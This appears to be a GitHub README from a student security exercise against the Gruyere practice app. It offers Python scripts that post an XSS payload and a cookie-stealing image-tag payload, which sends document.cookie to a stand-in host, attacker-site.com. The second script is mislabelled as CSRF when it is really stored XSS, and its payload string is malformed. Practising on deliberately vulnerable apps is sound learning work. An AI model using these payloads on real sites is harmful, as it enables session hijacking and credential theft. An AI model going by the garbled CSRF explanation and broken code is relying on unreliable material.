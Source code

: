 # Cloud-Security-2023
Create code that can automatically exploit its documented vulnerabilities.

**Cross-Site Scripting(XSS attack)**-harmful because they can be used to steal sensitive information, like login credentials or personal data from users.
How to execute an XSS attack- the payload variable contains a script tag with malicious JavaScript code. Problem arises if the server doesn't correctly/properly sanitize or encode the feedback parameter when rendering it in an HTML response. Consequence- script modified on the client side (XSS attack)

**Python Code for Cross-Site Scripting** 

import requests  
payload = "<script>alert('XSS Attack!');</script>" #Payload variable mentioned above- site of vulnerability 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" #This is the target website whereby the document ID has been appended to reach specific endpoint
data = {"feedback": payload}  #key-value pair received by the server where the data is processed(ie value which the payload variable is processed)
response = requests.post(url, data=data)
print(response.text)

**Cross Site Request Forgery (CSRF)**-tricks you into performing actions (unknowingly) on a website you trust, using your already authenticated session. It achieves this using login cookies and after authentication, carries out the request made. This request is a CSRF attack and can be mitigated using anti-CSRF tokens.

**Python Code for Cross-Site Request Forgery**

import requests  
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + \'">\';' #Assigning a payload variable which contains malicious content in the form of html image tag sourced from the url shown.'document.cookie' is important as it stores the cookies associated with the web page (the attacker wants to make a request to). The html image tag tricks the web browser into making a POST request to the target website's settings endpoint.
url = "http://gruyere-app.com/settings" #Target URL
data = {"description": payload} #Key value pair 
response = requests.post(url, data=data) # Requests is a library in python used to make HTTP requests. Post request is made to the target URL and the dictionary 'data' is processed (which contains malicious request/content) which gives attacker access
print(response.text)

